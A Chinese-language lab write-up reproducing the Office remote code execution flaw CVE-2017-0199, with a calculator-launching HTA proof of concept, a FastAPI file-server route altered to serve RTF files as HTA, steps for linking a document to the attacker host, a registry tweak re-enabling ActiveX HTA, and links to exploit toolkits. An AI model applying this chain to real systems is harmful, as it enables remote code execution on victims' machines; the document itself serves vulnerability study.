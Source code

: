 ```yaml
---
category:
  - 网络安全
  - 网络钓鱼
tags:
  - 钓鱼附件
  - Office
  - Office漏洞
  - CVE-2017-0199
excerpt: Microsoft Office 2007 SP3、Microsoft Office 2010 SP2、Microsoft Office 2013 SP1、Microsoft Office 2016、Microsoft Windows Vista SP2、Windows Server 2008 SP2、Windows 7 SP1、Windows 8.1 允许远程攻击者通过精心设计的文档执行任意代码，又名“Microsoft Office/WordPad 远程代码执行漏洞 w/Windows API”。
---
```


# CVE-2017-0199

---

- [CVE-2017-0199](#cve-2017-0199)
  - [简介](#简介)
  - [复现环境](#复现环境)
  - [漏洞复现](#漏洞复现)
  - [参考材料](#参考材料)

---

## 简介

> [Tuuu Nya's blog | 一个想当黑客的艺术家 ✨ (hackersb.cn)](https://www.hackersb.cn/hacker/228.html)

CVE-2017-0199是首个Microsoft Office RTF漏洞，漏洞发布日期为2017年4月11日

受影响系统包括：

- Microsoft Office 2016
- Microsoft Office 2013
- Microsoft Office 2010
- Microsoft Office 2007

当用户打开包含嵌入式漏洞的文档时，此漏洞允许恶意攻击者下载并执行包含PowerShell命令的Visual Basic脚本。

微软官方对该漏洞的通告：[CVE-2017-0199 - Security Update Guide - Microsoft - Microsoft Office/WordPad Remote Code Execution Vulnerability w/Windows](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2017-0199)

---

## 复现环境

- 靶机: 
  - [Win7](https://next.itellyou.cn/Original/#cbp=Product?ID=6f677346-0a09-43fa-b60d-e878ed7625a0)+[Office2010](https://msdn.itellyou.cn/)
  - IP: `192.168.1.14`

- 攻击机 Kali
  - IP: `100.1.1.131`

---

## 漏洞复现

> [CVE-2017-0199漏洞复现过程 · 浮萍's Blog (fuping.site)](https://fuping.site/2017/04/18/CVE-2017-0199漏洞复现过程/)

很多漏洞复现的文章都提到了使用 Apache 服务器, 其目的都指向自定义响应 `Content-type`

因此这里我们只需要能够自定义响应的 `Content-type` 就不一定需要 Apache 服务器

可以用 [Python/use_case/FileServer/FastAPI/fileserver.py · main · 33 2 / DailyNotesCodeBackup · GitLab](https://gitlab.com/ayusummer233/dailynotescodebackup/-/blob/main/Python/use_case/FileServer/FastAPI/fileserver.py?ref_type=heads)

这里也以这个 Fastapi 写的 FileServer 为例

在路由里指定 `Content-type` 即可

----

编写一个弹计算器的 POC:

`calc.hta`

```xml
<script>
    a=new ActiveXObject("WScript.Shell");
    a.run('%windir%\\System32\\cmd.exe /c calc.exe', 0);window.close();
</script>
```

---

用 Office2016 新建一个 word 文档保存为 `office2016.docx` 将其放到 FileServer 的 `upload` 目录下并重命名为 `office2016docx.rtf`

![image-20240614095147296](http://cdn.ayusummer233.top/DailyNotes/202406140951201.png)

在靶机上用 Office2016 新建一个 word 文档, `插入->对象->由文件创建`

填写 FileServer 中刚才放置的 `office2016docx.rtf` 的下载链接, 这里是 `http://100.1.1.131:8000/download/office2016docx.rtf`

并勾选 `链接到文件`

![image-20240613180746628](http://cdn.ayusummer233.top/DailyNotes/202406131807154.png)

点击 `确定` 后即会请求该文件

![image-20240613180914152](http://cdn.ayusummer233.top/DailyNotes/202406131809247.png)

保存为 rtf 文件 `Office2016docx-insert-rtf.rtf`

![image-20240613181301997](http://cdn.ayusummer233.top/DailyNotes/202406131813096.png)

---

解下来就需要对这个链接的 rtf 文件动手了, 使用前面编写的弹计算器的 POC `calc.hta` 重命名并替换掉前面  FileServer 上放置的 `office2016docx.rtf`

![image-20240614095637939](http://cdn.ayusummer233.top/DailyNotes/202406140956046.png)

然后改下 `fileserver.py` 中文件下载的路由, 让下载 `rtf` 文件的响应中的 `Content-type` 为 `application/hta`:

```python
@app.get("/download/{file_path:path}")
async def download_file(file_path: str):
    file_location = UPLOAD_DIRECTORY / Path(file_path)
    if file_location.exists():
        if file_location.suffix == ".rtf":
            media_type = "application/hta"
        else:
            return FileResponse(str(file_location))

        return FileResponse(str(file_location), media_type=media_type)
```

![image-20240614095814853](http://cdn.ayusummer233.top/DailyNotes/202406140958961.png)

---

双击打开靶机 Win7 上的 `Office2016docx-insert-rtf.rtf`

如果报错如下:

![image-20240614095953403](http://cdn.ayusummer233.top/DailyNotes/202406140959527.png)

根据 [CVE-2017-0199复现失败解决方案-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/2002507) 中提到的, 这是因为注册表默认禁用了ActiveX执行HTA

解决方案为将 `Win+R -> 输入regedit -> 回车`  注册表项 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{3050f4d8-98b5-11cf-BB82-00AA00BDCE0B}` 从 `400` 改为 `0`

![image-20240614102032895](http://cdn.ayusummer233.top/DailyNotes/202406141020003.png)

![image-20240614102057166](http://cdn.ayusummer233.top/DailyNotes/202406141020290.png)



![image-20240616171919988](http://cdn.ayusummer233.top/DailyNotes/202406161719114.png)

---


## 参考材料

- 分析
  - [CVE-2017-0199漏洞分析-CSDN博客](https://blog.csdn.net/qq_37672864/article/details/89353787)
- 利用工具
  - [GitHub - bhdresh/CVE-2017-0199: Exploit toolkit CVE-2017-0199 - v4.0 is a handy python script which provides pentesters and security researchers a quick and effective way to test Microsoft Office RCE. It could generate a malicious RTF/PPSX file and deliver metasploit / meterpreter / other payload to victim without any complex configuration.](https://github.com/bhdresh/CVE-2017-0199)

- 复现过程
  - 手工复现
    - [对CVE-2017-0199的一次复现过程与内网穿透的利用 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/26522540)
    - [CVE-2017-0199漏洞复现过程 · 浮萍's Blog (fuping.site)](https://fuping.site/2017/04/18/CVE-2017-0199漏洞复现过程/)
    - [Office CVE-2017-0199复现 - Junay的博客 (delcoding.github.io)](https://delcoding.github.io/2017/11/office-cve-2017-0199/)
    - [Tuuu Nya's blog | 一个想当黑客的艺术家 ✨ (hackersb.cn)](https://www.hackersb.cn/hacker/228.html)
    - [CVE-2017-0199漏洞复现过程 · 浮萍's Blog (fuping.site)](https://fuping.site/2017/04/18/CVE-2017-0199漏洞复现过程/)
    - [code2sec.com/office漏洞CVE-2017-0199复现：HTA Handler Vulnerability（一）.md at master · bit4woo/code2sec.com · GitHub](https://github.com/bit4woo/code2sec.com/blob/master/office漏洞CVE-2017-0199复现：HTA Handler Vulnerability（一）.md)
    - [Office CVE-2017-0199 复现 - X1r0z Blog (exp10it.io)](https://exp10it.io/2019/07/office-cve-2017-0199-复现/)
    - [CVE-2017-0199 Microsoft Office 逻辑漏洞复现和利用 | Hacked By Fish_o0O (fish-o0o.github.io)](https://fish-o0o.github.io/2018/03/07/CVE-2017-0199 Microsoft Office 逻辑漏洞复现和利用/)
    - [Office远程代码执行漏洞CVE-2017-0199复现 - SecurityKid - 博客园 (cnblogs.com)](https://www.cnblogs.com/SecurityKid/p/7384918.html)
  - MSF
    - [OFFICE OLE2LINK 漏洞 (CVE-2017-0199) 利用 - Gorgias'Blog](https://gorgias.me/2017/05/07/CVE-2017-0199-利用/)
    - [CVE-2017-0199 复现 - 40huo's - 知至知终](https://www.40huo.cn/blog/cve-2017-0199.html)
  - 复现失败解决方案
    - [CVE-2017-0199复现失败解决方案-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/2002507)

- 检测对抗
  - [Microsoft Office OLE2Link(CVE-2017-0199)漏洞利用技术分析与防护方案 – 绿盟科技技术博客 (nsfocus.net)](https://blog.nsfocus.net/microsoft-office-ole2link-exploits-technology-analysis/)
  - [对利用CVE-2017-0199漏洞的病毒变种的监测与分析-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1044292)
  - 野外样本分析
    - [CVE-2017-8570首次公开的野外样本及漏洞分析 (seebug.org)](https://paper.seebug.org/520/)

